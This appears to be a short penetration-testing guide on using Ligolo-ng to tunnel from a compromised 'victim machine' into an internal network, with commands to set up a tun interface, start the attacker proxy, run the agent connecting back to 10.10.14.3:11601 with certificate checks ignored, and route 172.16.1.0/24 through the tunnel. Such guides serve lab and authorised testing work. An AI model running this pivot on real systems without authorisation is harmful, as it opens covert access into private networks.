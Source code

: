 ### Preparation

- **Agent**: Victim machine
- **Proxy**: Attacker machine

Download the necessary binaries from the [official Ligolo-ng repository](https://github.com/nicocha30/ligolo-ng). You can choose between the source code or precompiled binaries.

### Configuration of Ligolo-ng

1. **Virtual Interface**: Set up the "tun" interface to establish the tunnel.

```shell
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

2. **Proxy Options**:
   - **`-autocert`**: Automatically requests a certificate using Let's Encrypt.
   - **`-certfile / -keyfile`**: Use your own certificates.
   - **`-selfcert`**: Generates a self-signed certificate.
   - **`-tun <interface name>`**: Specify a different interface name.
   - **`-laddr <IP:port>`**: Change the default listening interface.

### Execution

- **Attacker Machine**: Start the proxy with default settings.

```shell
./proxy -selfcert
```

- **Victim Machine**: Run the agent to create the session.

```shell
./agent -connect 10.10.14.3:11601 -ignore-cert
```

- Then choose session on proxy
-

```ligolo
ligolo-ng » session
```

### Useful Commands

- **ifconfig**: Check network interfaces on the victim machine.

```ligolo
ligolo-ng » ifconfig
```

- **Static Route**: Add a static route to redirect traffic through the Ligolo tunnel.

```shell
sudo ip r add 172.16.1.0/24 dev ligolo
```
